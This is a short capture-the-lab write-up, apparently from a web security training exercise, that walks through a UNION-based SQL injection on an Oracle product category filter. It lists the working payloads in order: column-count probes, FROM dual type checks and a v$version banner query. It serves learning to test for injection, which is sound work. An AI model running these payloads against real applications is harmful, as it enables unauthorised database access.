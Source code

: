 # SQL injection attack, querying the database type and version on Oracle

## Given:
- vulnerability in product category filter.

## Task:
- use a UNION attack to retrieve the results from an injected query.
    - display the database version string to solve the lab

## Analysis

- Examine product category filter, and append `'` in the url. => gives 500 internal server error.
- Error vanishes when comment(--) `'--` is used.
- double hyphens (--) are working for comments => database must be either oracle, microsoft or PostgreSQL.

- checking for number of columns (to perform union based SQLi)
    - payload: `ORDER BY 1--` => Response [200]
    - payload: `ORDER BY 2--` => Response [200]
    - payload: `ORDER BY 3--` => Response [500] ==> only two columns present in table

- checking for columns if it supports characters or not
    - payload: `UNION SELECT NULL, NULL` => response [500]  ==> something fishy
    - payload: `UNION SELECT NULL, NULL FROM dual` => response [200] ==> oracle database is used
    - payload: `UNION SELECT 'A', NULL FROM dual` => response [200]
    - payload: `UNION SELECT 'A', 'A' FROM dual` => response [200] ==> both columns supports the characters

- using payload to check database for oracle : `SELECT banner FROM v$version`
    - payload: `'UNION SELECT NULL, banner from v$version--` => response [200] ==> lab solved 
